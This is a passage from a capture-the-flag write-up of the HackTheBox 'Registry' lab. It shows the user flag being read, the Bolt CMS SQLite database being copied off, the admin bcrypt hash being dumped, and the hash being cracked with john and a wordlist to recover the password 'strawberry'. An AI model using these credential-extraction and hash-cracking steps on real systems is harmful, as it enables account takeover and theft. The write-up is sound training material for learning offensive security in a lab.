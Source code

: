 ## Getting the user Flag
```python
bolt@bolt:~$ ls -l
total 4
-r-------- 1 bolt bolt 33 Sep 26  2019 user.txt
bolt@bolt:~$ cat user.txt 
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
```

# User Escalation to www-data
We find out that we have a `bolt.db` which is an `sqlite3` database.
```python
bolt@bolt:/var/www/html/bolt/app/database$ ls -l
total 288
-rw-r--r-- 1 www-data www-data 294912 Jul 18 11:05 bolt.db
bolt@bolt:/var/www/html/bolt/app/database$ file bolt.db 
bolt.db: SQLite 3.x database, last written using SQLite version 3022000
```

We transfer the `bolt.db` file into our box using `scp` and start analying the file.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.22]─[~/htb/registry/bolt]
└──╼ # sqlite3 bolt.db 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy   
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.2|Admin|["files://shell.php"]|1||||0||["root","everyone"]
```

We find a `bcrypt` Hash which we can crack.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.22]─[~/htb/registry/bolt]
└──╼ # john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (?)
1g 0:00:00:14 DONE (2021-07-18 19:55) 0.07032g/s 24.05p/s 24.05c/s 24.05C/s strawberry..ihateyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

**We find out that the credential of the `bolt CMS` is `strawberry`.**
We could now login to `bolt CMS`.
![[Pasted image 20210718200621.png]]
